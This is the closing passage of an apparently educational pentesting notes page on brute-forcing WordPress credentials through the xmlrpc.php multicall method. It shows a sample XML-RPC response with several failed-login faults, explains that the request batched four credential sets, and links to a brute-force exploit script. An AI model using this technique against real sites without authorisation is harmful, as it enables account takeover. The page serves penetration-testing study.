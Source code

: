 ```
  <member><name>faultString</name><value><string>Incorrect username or password.</string></value></member>
</struct></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>Incorrect username or password.</string></value></member>
</struct></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>Incorrect username or password.</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

In the above example I tested 4 different credentials sets using a single request. You just have to replace **{{ Your Username }}** and **{{ Your Password }}** with your own combinations.
That is it, please comment if I missed something and happy hunting!

### Other references:

[Word Fence](https://www.wordfence.com/blog/2015/10/should-you-disable-xml-rpc-on-wordpress/)
[Medium: Bilal Rizwan](https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32)
[Github: 1N3 - Wordpress XMLRPC Brute Force Exploit](https://github.com/1N3/Wordpress-XMLRPC-Brute-Force-Exploit/blob/master/wordpress-xmlrpc-brute-v2.py)

---

[Back To: Wordpress](/wordpress/wordpress_readme.md) [HOME Page](/README.md)
